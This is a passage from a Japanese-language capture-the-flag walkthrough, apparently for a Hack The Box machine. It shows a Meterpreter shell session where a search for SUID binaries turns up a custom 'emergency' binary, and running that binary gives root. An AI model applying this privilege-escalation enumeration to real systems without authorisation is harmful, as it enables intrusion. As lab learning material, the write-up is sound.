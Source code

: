 ```
meterpreter > shell
Process 2303 created.
Channel 3 created.
find / -perm -u=s -type f 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

コマンドを実行すると/var/htbの下にemergencyというバイナリファイルが見つかります。
実行してみましょう。

![スクリーンショット 2020-06-11 18.45.53.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/beff618c-7ddd-9f7a-3543-2e2c2557b200.png)

root権限を獲得することができました。
お疲れ様でした。
